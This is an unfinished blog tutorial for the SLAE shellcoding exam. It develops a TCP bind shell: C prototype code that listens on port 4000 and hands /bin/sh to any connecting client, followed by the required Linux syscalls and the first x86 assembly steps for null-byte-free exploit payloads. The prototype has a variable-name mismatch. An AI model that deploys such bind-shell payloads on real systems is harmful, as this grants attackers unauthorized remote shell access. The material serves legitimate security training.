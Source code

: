 ```yaml
---
title: SLAE exam assignment 01
author: Stipe Marinovic
date: 2020-05-17 20:00:00 +0800
categories: [Blogging, Tutorial]
tags: [slae, shellcoding]
toc: true
---
```

... page still under construction ...  

## Assignment 01 ##

* Create a Shell_Bind_TCP shellcode
  - Binds to a port
  - Execs Shell on incoming connection
* Port number should be easily configurable

## Prototype ##

To get idea how bind shell works and which syscalls are used/needed, we can create prototye of bind shell code in C.  

```
#define _GNU_SOURCE # added to avoid gcc's implicit declaration of function warning
#include <unistd.h> 
#include <stdio.h> 
#include <sys/types.h> 
#include <sys/socket.h> 
#include <netinet/in.h> 

int main() { 

  // Define struct containing bind() arguments
  struct sockaddr_in server; 

  // Define socket file descriptor
  int socketfd; 
  int socketid; 
   
  // Create socket 
  socketd = socket(AF_INET, SOCK_STREAM, 6); 

  // Setup struct "server" containing following information: address, port and address family
  server.sin_addr.s_addr = htonl(INADDR_ANY); // any address (0.0.0.0)
  server.sin_port = htons(4000);              // port 4000
  server.sin_family = AF_INET;                // address family (ip v4)

  // Bind socket to ip 0.0.0.0, port 4000 
  bind(socketd, (struct sockaddr*) &server, sizeof(server)); 

  // Listen for incoming connections 
  listen(socketd, 2); 

  // Accept incoming connection 
  socketid = accept(socketd, NULL, NULL); 

  // Bind STDIN (0), STDOUT (1), STDERR (2) to incoming connection 
  dup2(socketid, 0); 
  dup2(socketid, 1); 
  dup2(socketid, 2); 

  // Run /bin/sh shell 
  execve("/bin/sh", NULL, NULL); 
} 
```

Once application is compiled (`with: gcc bind.c`) and run (`./a.out`), we can confirm with netstat (`netstat -antvp`) and netcat (`nc -v 127.0.0.1 4000`) 
that application is indeed listening at port 4000 and provides shell to whoever connects to listening port as shown on following screenshot.
![bind shell](https://smarinovic.github.io/assets/img/slae_00001.png)

## Syscalls ##

Based on prototype code above, we can conclude that following syscalls are needed to implement bind shell:

* socket
* bind
* listen
* accept
* dup2
* execve

List of all syscalls and their associated numbers can be found in: unistd_32.h. On Kali 2019.4 linux file is located on following location: 
```
/usr/include/x86_64-linux-gnu/asm/unistd_32.h
```
```
Syscall               Dec   Hex
----------------------------------
#define __NR_socket   359   0x167
#define __NR_bind     361   0x169
#define __NR_listen   363   0x16B
#define __NR_accept4  364   0x16C
#define __NR_dup2     63    0x3F
#define __NR_execve   11    0xB
```

Each syscall and its arguments are defined in man 2 pages in form of C function. In order to find out which argments are needed we need to look at man pages. 
Based on man 2 pages for socket syscall (`man 2 socket`) we can see the three arguments that need to be passed to syscall.

```
int socket(int domain, int type, int protocol);
```
socket()  creates an endpoint for communication and returns a file descriptor that refers to that endpoint.  
The file descriptor returned by a successful call will be the lowest-numbered file descriptor not currently open for the process.

Arguments are passed via registers in following order; EAX, EBX, ECX, EDX, ESI, EDI. EAX always contains syscall number (in case of socket it is decimal 359 or hex 0x167). 
The domain, type and protocol would need to be passed in EBX, ECX and EDX registers.

If we look at prototype code: 
```
socket(AF_INET, SOCK_STREAM, 6);
``` 
We can see that 
* domain is set to AF_INET which is eaqual to "2"
* type is set to SOCK_STREAM which is eaqual to "1" and
* protocol is set to 6 (IPPROTO_TCP)

Before we can move any value to register we need to se registers to zero. The easiest way to to it without null bytes is to preform XOR operation on register.

```
; Clearing registers
XOR EAX, EAX    ; set EAX to zero
XOR EBX, EBX    ; set EBX to zero
XOR ECX, ECX    ; set ECX to zero
XOR EDX, EDX    ; set EDX to zero
```

When registers are set to zero we can start writing assembly code to call socket syscall:

```
MOV AX, 0x167  ; 0x167 is hex syscall to socket
MOV BL, 2      ; set domain argument
MOV CL, 1      ; set type argument
MOV DL, 6      ; set protocol argument
INT 0x80       ; preforming syscall

```


Bind shell will most commonly be used in exploit which is usually delivered as payload to some network application.  
For that reason, we need to avoid null bytes, as null bytes terminates string and breaks exploit.

By using nasm_shell we can see that `mov eax, 0x167` generates null bytes: B867010000 so we cannot simply use `mov eax, 0x167`, instead we can use `mov ax, 0x167`:
```
/usr/bin/msf-nasm_shell
nasm > mov eax, 0x167
00000000  B867010000        mov eax, 0x167
nasm > mov ax, 0x167
00000000  66B86701          mov ax, 0x167
nasm > 
```


```mov ah, 0x167 ; 359 (0x167) is the syscall for socket ```


.... to be continued ...


```
int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
// When a socket is created with socket(2), it exists in a name space (address family) but has no address assigned to it.
// bind() assigns the address specified by addr to the socket referred to by the file descriptor sockfd.  
// addrlen specifies the size, in bytes, of the address structure pointed to by addr.
```

```
int listen(int sockfd, int backlog);
// listen() marks the socket referred to by sockfd as a passive socket, that is, as a socket that will be used to accept incoming connection requests using accept(2).
// The sockfd argument is a file descriptor that refers to a socket of type SOCK_STREAM or SOCK_SEQPACKET.
//  The backlog argument defines the maximum length to which the queue of pending connections for sockfd may grow.  
```

```
int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
// The accept() system call is used with connection-based socket types (SOCK_STREAM, SOCK_SEQPACKET). 
// It extracts the first connection request on the queue of pending connections for the listening socket, sockfd, creates a new connected socket, and returns a new file descriptor referring to that socket.  
// The newly created socket is not in the listening state.  
```

```
int dup2(int oldfd, int newfd);
// The dup2() system call performs the same task as dup(), but instead of using the lowest-numbered unused file descriptor, it uses the file descriptor number specified in newfd.  If the file descriptor newfd was previously open, it is silently closed before being reused.
```

```
int execve(const char *pathname, char *const argv[], char *const envp[]);
// execve()  executes the program referred to by pathname.  
// This causes the program that is currently being run by the calling process to be replaced with a new program, with newly initialized stack, heap, and (initialized and uninitialized) data segments.
// pathname must be either a binary executable, or a script starting with a line of the form:
// #!interpreter [optional-arg]
```

